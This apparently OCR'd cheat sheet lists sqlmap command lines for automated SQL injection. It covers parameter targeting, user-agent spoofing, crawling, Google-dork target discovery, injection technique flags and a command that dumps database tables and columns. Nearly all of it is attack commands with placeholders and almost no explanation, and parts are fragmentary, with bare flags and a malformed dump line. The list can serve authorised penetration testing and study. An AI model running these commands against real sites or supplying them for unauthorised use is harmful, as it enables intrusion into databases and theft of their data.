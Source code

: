 `$ sqlmap -u <URL> -p <parameter> --user-agent="<user_agent>"`

`$ sqlmap -u <URL> -p <parameter> --random-agent`

`$ sqlmap -m urls.txt`

`$ sqlmap -u <URL> --crawl=<integer>`

`$ sqlmap -u <URL> -f`

`$ sqlmap -u <URL> --dbms=<mysql | mariadb | postgresql | sqlite | oracle>`

`$ sqlmap -u <URL> --os=<linux | windows>`

`$ sqlmap -u <URL> -p <parameter> --keep-alive`

`$ sqlmap -u <URL> -p <parameter> --threads=8`

`$ sqlmap -u <URL> -p <parameter> --flush-session`

`$ sqlmap -u <URL> -p <parameter> --batch`

`$ sqlmap -u <URL> -p <parameter> --batch --answers="follow=Y,process=Y,problems=Y,already=N,vulnerable=N,extending=N,fuzzy=Y,requests=N"`

`$ sqlmap -u <URL> -p <parameter> --batch --answers="DBMSes=N"`

`$ sqlmap -g "<google_dork>"`

`$ sqlmap -u <URL> -p <parameter> --search -D <database_name_1>,<database_name_2>,<database_name_n> -T <table_1>,<table_2>,<table_n> -C <column_1>,<column_2>,<column_n>`

`$ sqlmap -u <URL> -o`

`$ sqlmap -u <URL> -p <parameter> --output-dir=/path/to/directory`

`$ sqlmap -u <URL> -p <parameter> --drop-set-cookie`

`$ sqlmap -u <URL> -p <parameter> --no-cast`

`$ sqlmap -u <URL> -p <parameter> --prefix="'"`

- Display payloads injected.

`$ sqlmap -u <URL> -p <parameter> -v 3`

### SQL Injection Techniques

--technique=U

--union-cols

--union-char

--union-from

- This is also used for blind SQL Injection method

`$ sqlmap -u <URL> -p <parameter> --time-sec=<seconds> --technique=T`

### Dumping Database

`$ sqlmap -u <URL> -p <parameter> -D <database_name -T <table_name> -C <column_name> --start=<row_start_range> --dump`

